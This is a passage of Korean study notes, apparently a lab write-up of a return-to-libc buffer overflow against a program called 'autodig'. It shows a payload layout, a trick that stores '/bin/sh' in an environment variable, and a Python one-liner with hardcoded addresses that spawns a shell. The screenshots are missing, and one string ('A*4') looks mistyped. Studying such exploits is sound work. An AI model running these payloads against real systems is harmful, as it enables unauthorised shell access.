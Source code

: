        |dig @| .......  AAAAAAAAAAAA  ......  |system|AAAA|/bin/sh|

       |-  5  -|-------------- 119 --------------|--- 4 --|-- 4 --|-- 4 --| 

       ​	⇒ `system(/bin/sh)`

       

3. 세번째 공격

   > 환경 변수를 이용한 RTL 공격

   - 환경변수에 "/bin/sh" 문자열 저장

     - `export MYSHELL="/bin/sh"`

       ![1572941394533](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572941394533.png)

     - 환경변수 `MYSHELL` 주소 확인

       - `vi getmyshell.c` 명령어로 getmyshell.c 파일 만들기

         ![1572941635873](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572941635873.png)

       - getmyshell.c 파일 컴파일 및 실행

         ![1572941668858](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572941668858.png)

   

   - 공격 실행

     ```
     autodig `python -c 'print "A"*119+"\xc0\xf2\x03\x42"+"A*4"+"\x6f\xff\xff\xbf"'`
     ```

     ![](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572941830513.png)

     ​	⇒ `system(/bin/sh)`